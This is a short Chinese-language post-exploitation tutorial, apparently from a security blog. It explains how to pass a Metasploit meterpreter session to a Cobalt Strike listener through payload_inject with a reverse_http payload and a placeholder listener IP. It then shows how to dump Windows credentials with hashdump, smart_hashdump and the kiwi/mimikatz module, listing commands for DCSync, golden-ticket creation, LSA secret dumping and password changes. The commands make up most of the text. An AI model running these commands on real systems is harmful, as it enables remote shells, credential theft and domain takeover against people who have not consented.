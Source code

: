 用CS获取权限和msf没啥区别，这里主要提一下把msf的shell转发到CS上。
首先CS上开个监听，CS咋用我好像发了一篇博客了。

    use exploit/windows/local/payload_inject
    set payload windows/meterpreter/reverse_http
    set DisablePayloadHandler true   #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true
    set lhost xxxx                 #cobaltstrike监听的ip
    set lport 14444                 #cobaltstrike监听的端口 
    set session 1                   #这里是获得的session的id
    exploit

由于我搭的环境没法出网，就不上图了。

## 获取账号密码
重新进入刚刚的shell
 
    sessions -l 查看所有获得的session
    sessions -i 1 进入
1、导出hash：

    run hashdump

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602213143.png)

或者

    run windows/gather/smart_hashdump

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602213305.png)

2、加载kiwi模块

    load kiwi

使用kiwi模块需要system权限，所以我们在使用该模块之前需要将当前MSF中的shell提升为system。提到system有两个方法，一是当前的权限是administrator用户，二是利用其它手段先提权到administrator用户。然后administrator用户可以直接getsystem到system权限。

    creds_all：列举所有凭据
    creds_kerberos：列举所有kerberos凭据
    creds_msv：列举所有msv凭据
    creds_ssp：列举所有ssp凭据
    creds_tspkg：列举所有tspkg凭据
    creds_wdigest：列举所有wdigest凭据
    dcsync：通过DCSync检索用户帐户信息
    dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
    golden_ticket_create：创建黄金票据
    kerberos_ticket_list：列举kerberos票据
    kerberos_ticket_purge：清除kerberos票据
    kerberos_ticket_use：使用kerberos票据
    kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
    lsa_dump_sam：dump出lsa的SAM
    lsa_dump_secrets：dump出lsa的密文
    password_change：修改密码
    wifi_list：列出当前用户的wifi配置文件
    wifi_list_shared：列出共享wifi配置文件/编码
